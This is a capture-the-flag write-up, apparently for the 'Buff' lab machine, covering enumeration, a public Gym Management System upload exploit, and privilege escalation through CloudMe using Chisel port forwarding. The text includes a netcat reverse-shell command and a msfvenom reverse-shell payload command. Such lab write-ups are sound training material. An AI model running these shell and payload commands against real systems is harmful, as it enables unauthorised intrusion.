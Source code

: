 ```yaml
---
published: true
---
```

<img src="https://i.ibb.co/WtCrJ77/buff.png" alt="buff" border="0">

<h1>Enumeration</h1>
<blockquote>
<p>ِLet`s begain scanning with NMAP</p>
</blockquote>

<img src="https://i.ibb.co/0rj2J7D/Enumeration.png" alt="Enumeration" border="0">
  
<blockquote>
<p>ِTwo ports are open 8080 , 7680</p>
</blockquote>  
  
<img src="https://i.ibb.co/T40QWjW/HTTP-Page.png" alt="HTTP-Page" border="0">
  
<blockquote>
<p>ِAfter opening the webapp at 8080 i found out it`s from ProjectWorld.in</p>
<p>And i searched for the project</p>
<p>https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/</p> 
<p>I searched for public exploit for the project and i found this <a href="https://www.exploit-db.com/exploits/48506">Exploit</a></p>
</blockquote> 
  
<h1>Exploiting</h1>
<p>Python script</p>
<img src="https://i.ibb.co/J3wX1Y0/Authenticated.png" alt="Authenticated" border="0">

<blockquote>
<p>ِWe got in !</p>
</blockquote>

<blockquote>
<p>ِLet`s upload nc.exe</p>
</blockquote>
<img src="https://i.ibb.co/N9286zX/Uploading.png" alt="Uploading" border="0">

<blockquote>
<p>Let`s get our reverse shell</p> 
<p>ِC:\xampp\htdocs\gym\upload> powershell -c ".\nc.exe 10.10.10.10 1234 -e powershell"</p>
</blockquote>

<img src="https://i.ibb.co/cD5Zn57/Shaun.png" alt="Shaun" border="0">
<blockquote>
<p>ِWe got shell as SHAUN ! , Let`s get the user hash.</p>
</blockquote>

<h1>USER Flag !</h1>

<img src="https://i.ibb.co/nmtcnfR/USER.png" alt="USER" border="0">

<h1>Privilege Escalation</h1>
<blockquote>
<p>I uploaded WinPEAS.exe and after i ran it i found a vulnerable app called Cloudme.exe,it`s running on 8888 port </p>
<p>I search for an exploit and found these</p>
</blockquote>
<img src="https://i.ibb.co/JrfGmMk/image-3.png" alt="image-3" border="0">

<blockquote>
<p>ِWe need to use portforwarding to run the exploit, you can use CHISEL or PLINK.</p>
<p>It should be compiled to exe to run on windows i used golang</p>
<p>env GOOS=windows GOARCH=amd64 go build -o chisel-x64.exe -ldflags "-s -w" </p>
<p>You can compile it by this command</p> 
<p>After compilt it to exe , let`s upload it </p> 
</blockquote>

<img src="https://i.ibb.co/GxG19W1/uploading-chisel.png" alt="uploading-chisel" border="0">


<blockquote>
<p>ِI started the server at 8080 on my machine</p>
</blockquote>

<img src="https://i.ibb.co/8dyHfzN/on-your-linux-server.png" alt="on-your-linux-server" border="0">

<blockquote>
<p>ِWe need to start Chisel on the victim machine to connect</p>
</blockquote>

<img src="https://i.ibb.co/5B6KMN7/Chisel-on-victim.png" alt="Chisel-on-victim" border="0">

<h1>Exploiting Cloudme</h1>
<blockquote>
<p> We need to adjust msfvenom cmd to get a shell to our machine</p> 
<p>So you to copy this and adjust your Ip address to get your shell
"msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 EXITFUNC=thread -b "\x00\x0d\x0a" -f python" 
<a href="https://www.exploit-db.com/exploits/48506">Exploit</a></p>
<p>Run your listner on the port you choosed in the payload then run the EXPLOIT ..</p>
</blockquote>

<img src="https://i.ibb.co/1r8Xqc2/Listner.png" alt="Listner" border="0">
<img src="https://i.ibb.co/b374fJZ/Got-in.png" alt="Got-in" border="0">

<h1>ROOT Flag !</h1>
<img src="https://i.ibb.co/By7fdbL/admin-hash.png" alt="admin-hash" border="0">

<h1>Thanks for Reading 🙏</h1>
